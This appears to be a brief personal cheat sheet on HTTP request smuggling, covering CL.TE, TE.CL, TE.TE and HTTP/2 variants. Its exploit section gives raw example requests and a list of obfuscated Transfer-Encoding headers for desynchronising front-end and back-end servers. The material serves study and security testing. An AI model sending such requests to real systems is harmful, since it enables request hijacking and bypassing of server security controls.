 # HTTP Request Smuggling

## Types:

1. HTTP/1.1
    1. CL.TE
    2. TE.CL
    3. TE.TE
3. HTTP/2

## How to find each type:

1. HTTP/1.1
    1. CL.TE
    2. TE.CL
    3. TE.TE

## How to exploit each type:

1. HTTP/1.1
    1. CL.TE
       ```
       POST / HTTP/1.1
       Host: vulnerable-website.com
       Content-Length: 13               --> Content length is 13 which includes smuggled
       Transfer-Encoding: chunked    

       0  --> Since it is chunked the 0 terminates the first request, sending smuggled to the backend

       SMUGGLED               
       ```
    2. TE.CL
         ```
       POST / HTTP/1.1
       Host: vulnerable-website.com
       Content-Length: 3               --> Content length is 3 which includes the 8
       Transfer-Encoding: chunked    

       8  --> This is the length of the following request
       SMUGGLED
       0   --> Needs to end in /r/n/r/n
       ```
    3. TE.TE
       - You need to obfuscate the Transfer-Encoding header so that one server does not process it
        ```
        Transfer-Encoding: xchunked
        Transfer-Encoding : chunked
        Transfer-Encoding: chunked
        Transfer-Encoding: x
        Transfer-Encoding:[tab]chunked
        [space]Transfer-Encoding: chunked
        X: X[\n]Transfer-Encoding: chunked
        Transfer-Encoding
        : chunked
       ```

## Other important notes:
- HTTP/1.1 allows for content-length transfer-encoding
- Some servers that do support the Transfer-Encoding header can be induced not to process it if the header is obfuscated in some way.
- HTTP/2 is only vulnerable if the backend supports HTTP/1.1
- You need to manually switch the protocol in repeater

